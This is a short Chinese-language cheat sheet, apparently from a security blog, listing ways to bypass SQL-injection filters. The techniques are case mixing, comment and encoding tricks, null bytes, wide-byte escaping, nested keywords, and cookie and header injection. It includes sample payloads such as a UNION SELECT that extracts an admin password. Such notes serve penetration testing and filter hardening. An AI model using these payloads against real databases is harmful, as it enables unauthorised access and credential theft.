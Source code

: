 ```yaml
---
layout: default
---
```

# ![](../img/hj.jpg)绕过方法

## ![](../img/github13.png)大小写混合
## ![](../img/github14.png)/**/代替空格，like代替=
## ![](../img/github15.png)url编码或url双编码
如%27或%2527代替单引号
## ![](../img/github16.png)使用动态查询执行
sqlserver可用EXEC
```
 EXEC('SELECT password FROM users'）
```
## ![](../img/github17.png)使用空字节
在阻止的字符前%00即可
```html
%00' UNION SELECT password FROM users  WHERE username='admin'--
```
## ![](../img/github18.png)使用宽字节(gbxxx)
```html
引号前%df或%c0来吃掉转义的\
```
## ![](../img/github19.png)嵌套剥离后的表达式
```
SELSELECTECT
```
## ![](../img/github20.png)cookie注入
## ![](../img/github21.png)header注入
## ![](../img/github22.png)hash注入

__原创文章，转载请注明转载自[http://www.8pwn.com](http://www.8pwn.com)__

[返回上一层](./web)
